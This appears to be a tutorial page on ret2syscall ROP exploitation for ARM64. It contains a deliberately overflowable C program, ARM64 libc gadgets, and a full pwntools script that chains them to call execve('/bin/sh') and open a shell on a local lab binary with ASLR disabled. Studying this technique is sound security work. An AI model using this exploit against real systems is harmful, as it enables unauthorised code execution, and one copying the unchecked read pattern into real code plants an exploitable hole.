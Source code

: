 # Ret2syscall - ARM64


Find an introduction to arm64 in:

{% content-ref url="../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md" %}
[arm64-basic-assembly.md](../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md)
{% endcontent-ref %}

## Code

We are going to use the example from the page:

{% content-ref url="../../stack-overflow/ret2win/ret2win-arm64.md" %}
[ret2win-arm64.md](../../stack-overflow/ret2win/ret2win-arm64.md)
{% endcontent-ref %}

```c
#include <stdio.h>
#include <unistd.h>

void win() {
    printf("Congratulations!\n");
}

void vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
    vulnerable_function();
    return 0;
}
```

Compile without pie and canary:

```bash
clang -o ret2win ret2win.c -fno-stack-protector
```

## Gadgets

In order to prepare the call for the **syscall** it's needed the following configuration:

* `x8: 221 Specify sys_execve`
* `x0: ptr to "/bin/sh" specify file to execute`
* `x1: 0 specify no arguments passed`
* `x2: 0 specify no environment variables passed`

Using ROPgadget.py I was able to locate the following gadgets in the libc library of the machine:

{% code overflow="wrap" %}
```armasm
;Load x0, x1 and x3 from stack and x5 and call x5
0x0000000000114c30: 
    ldp x3, x0, [sp, #8] ; 
    ldp x1, x4, [sp, #0x18] ; 
    ldr x5, [sp, #0x58] ; 
    ldr x2, [sp, #0xe0] ; 
    blr x5

;Move execve syscall (0xdd) to x8 and call it
0x00000000000bb97c : 
    nop ; 
    nop ; 
    mov x8, #0xdd ; 
    svc #0
```
{% endcode %}

With the previous gadgets we can control all the needed registers from the stack and use x5 to jump to the second gadget to call the syscall.


### Exploit

```python
from pwn import *

p = process('./ret2syscall')
elf = context.binary = ELF('./ret2syscall')
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")
libc.address = 0x0000fffff7df0000 # ASLR disabled
binsh = next(libc.search(b"/bin/sh")) 

stack_offset = 72

#0x0000000000114c2c : bl #0x133070 ; ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5
load_x0_x1_x2 = libc.address + 0x114c30 # ldp x3, x0, [sp, #8] ; ldp x1, x4, [sp, #0x18] ; ldr x5, [sp, #0x58] ; ldr x2, [sp, #0xe0] ; blr x5

# 0x00000000000bb97c : nop ; nop ; mov x8, #0xdd ; svc #0
call_execve = libc.address + 0xbb97c

print("/bin/sh in: " + hex(binsh))
print("load_x0_x1_x2 in: " + hex(load_x0_x1_x2))
print("call_execve in: " + hex(call_execve))

# stack offset
bof = b"A" * (stack_offset)
bof += p64(load_x0_x1_x2)

# ldp x3, x0, [sp, #8]
rop = b"BBBBBBBBBBBBBBBB" #x3
rop += p64(binsh) #x0

# ldp x1, x4, [sp, #0x18]
rop += b"C"*(0x18 - len(rop))
rop += p64(0x00) # x1
rop += b"CCCCCCCC" #x4

# ldr x5, [sp, #0x58]
rop += b"D"*(0x58 - len(rop))
rop += p64(call_execve) # x5

# ldr x2, [sp, #0xe0]
rop += b"E" * (0xe0 - len(rop))
rop += p64(0x00) # x2

payload = bof + rop

p.sendline(payload)

p.interactive()
```

